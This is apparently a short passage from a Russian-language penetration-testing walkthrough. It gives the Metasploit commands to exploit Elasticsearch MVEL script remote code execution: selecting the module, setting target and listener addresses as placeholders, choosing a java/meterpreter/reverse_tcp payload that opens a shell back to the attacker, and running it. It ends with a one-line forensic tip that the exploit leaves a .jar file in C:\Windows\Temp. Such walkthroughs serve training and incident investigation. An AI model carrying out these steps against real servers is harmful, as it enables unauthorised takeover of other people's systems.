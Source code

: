 ```
search mvel
```

```
exploit/multi/elasticsearch/script_mvel_rce
```

```
set RHOST <$REMOTE_IP>
set LHOST <$LOCAL_IP>
set LPORT <$LOCAL_PORT>
set PAYLOAD java/meterpreter/reverse_tcp
```

```
exploit
```

> Обратите внимание, что эксплойт создает файл .jar в папке: C:\Windows\Temp и это возможный след для специалиста форензики, позволяющий понять как была выполнена эксплуатация системы, то есть надо обращать внимание на такие файлы при расследовании инцидента.